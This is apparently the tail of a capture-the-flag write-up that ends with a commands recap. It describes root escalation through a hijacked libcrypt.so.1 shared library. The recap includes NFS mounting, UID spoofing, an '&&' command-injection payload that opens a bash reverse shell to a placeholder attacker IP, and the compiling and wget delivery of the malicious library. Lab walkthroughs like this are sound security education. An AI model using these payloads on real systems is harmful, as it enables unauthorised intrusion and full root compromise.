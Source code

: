 If the chosen binary loads `libcrypt.so.1`, your constructor will run as root and spawn a shell. You should get a root shell. Screenshot:
![ldd](screenshots/hijack_ldd.png)
![root](screenshots/hijack_root.png)

---

## Final flags

Grab `/root/root.txt` and done.

---

## Commands recap (quick)

```bash
# showmount + mount
showmount -e <IP>
mkdir /tmp/mount
sudo mount -t nfs <IP>:/mnt/share /tmp/mount

# create local user with same UID
sudo adduser --uid 1003 someuser

# ftp
ftp <IP>
get <file>

# command injection -> reverse shell
nc -nvlp 4444
# injection:
&& bash -c "bash -i >& /dev/tcp/<ATTACK_IP>/4444 0>&1"

# compile exploit on attacker
gcc -fPIC -shared -o libcrypt.so.1 exploit.c

# copy lib to target (example)
python3 -m http.server 80
wget http://<ATTACK_IP>/libcrypt.so.1

```

---